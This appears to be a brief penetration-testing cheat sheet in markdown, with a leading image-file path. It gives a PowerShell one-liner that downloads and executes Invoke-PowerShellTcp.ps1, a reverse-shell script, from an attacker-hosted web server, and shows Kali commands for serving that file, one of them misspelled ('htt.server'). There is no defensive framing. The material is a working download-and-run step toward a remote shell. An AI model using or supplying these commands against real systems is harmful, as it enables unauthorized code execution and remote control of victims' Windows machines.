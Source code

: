 # Windows Powershell
```
IEX(New-Object System.Net.WebClient).downloadString('http://"local ip"/Invoke-PowerShellTcp.ps1').  
```
# Kali Web Server
```
python3 -m htt.server 8080
```
```
python -m SimpleHTTPServer 8080
```
